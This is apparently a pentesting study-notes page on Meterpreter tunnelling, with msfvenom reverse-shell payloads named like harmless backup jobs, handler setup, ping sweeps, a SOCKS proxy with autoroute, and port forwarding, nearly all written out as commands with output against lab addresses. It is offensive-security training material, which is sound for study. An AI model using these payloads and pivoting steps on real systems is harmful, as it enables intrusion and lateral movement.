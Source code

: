 ![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


## Meterpreter Tunneling & dynamic port forwardiing 

### Creating Payload for Ubuntu Pivot Host

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

### Executing the Payload on the Pivot Host
```
 ./backupjob
```
### Ping Sweep
```shell
# msfconsole
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23          

# shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done    

# CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

# powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

### conf check proxychain 
```
cat /etc/proxychains.conf

socks4 	127.0.0.1 9050

```

### Configuring MSF's SOCKS Proxy
This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
```shell
sf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

### Confirming Proxy Server is Running
```shell
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

### Creating Routes with AutoRoute
Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. 
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed


or


meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

### Testing Proxy & Routing Functionality
```shell
$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```


## Meterpreter Port Forwarding

### Creating Local TCP Relay
The command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session.
```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

### Netstat Output
```shell
$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```


## Meterpreter Reverse Port Forwarding

### Reverse Port Forwarding Rules
This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081.
```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

### Configuring & Starting multi/handler
```shell
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

```

### Generating the Windows Payload

```shell
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

### run the script in the windows machine
